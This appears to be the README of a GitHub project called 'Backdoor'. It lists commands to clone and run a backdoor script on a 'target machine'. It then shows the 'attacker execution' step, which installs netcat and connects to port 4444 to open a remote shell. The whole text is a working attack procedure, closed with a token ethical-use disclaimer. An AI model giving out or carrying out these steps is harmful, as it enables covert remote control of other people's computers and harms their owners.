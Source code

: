 ### Target machine execution

```
  git clone https://github.com/666aalexx/Backdoor.git
  
  cd Backdoor/
  
  chmod +x backdoor.py
  
  python3 backdoor.py
```

### Attacker execution
```
  apt install netcat
  nc ip 4444
```

### Usage
This script is intended for ethical purposes. I am not responsible for any misuse of it.

